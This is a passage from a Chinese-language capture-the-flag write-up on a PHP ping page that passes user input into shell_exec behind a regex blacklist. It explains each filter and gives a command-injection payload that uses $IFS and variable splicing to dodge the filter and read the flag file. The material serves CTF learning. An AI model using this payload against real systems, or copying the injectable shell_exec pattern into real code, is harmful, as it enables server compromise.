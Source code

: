 
可以看到这里面是服务器后端的代码，里面有一些列过滤规则
```
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);

      // 过滤 & / ? * < x{00}到x{20} > ' " \ ( ) [ ] { }
      // \& \/ \? \* 斜杆后面的字符就是过滤的字符，| 表示或

    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");

      // 过滤 空格

  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");

      // 过滤 bash

  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");

      // 过滤 flag（严格来说，是字符串中，flag依序出现的都被过滤）

  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

知道过滤规则了，开始尝试绕过

#### 解法1： 变量拼接字符串

构造payload：` /?ip=1;a=g;cat$IFS$9fla$a.php `,让变量a代替flag的g这个字母，绕过字符串检测。

注意 ` a=g ` 是在linux系统的命令赋值，我们并不是在php中赋值，不用加dollar符号 ` $a=g `。（这个我之前不小心就想错了，这里顺便提一嘴）

传入看看结果

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping6.png" alt="Ping6" border="0" width="90%" height="60%"></div>
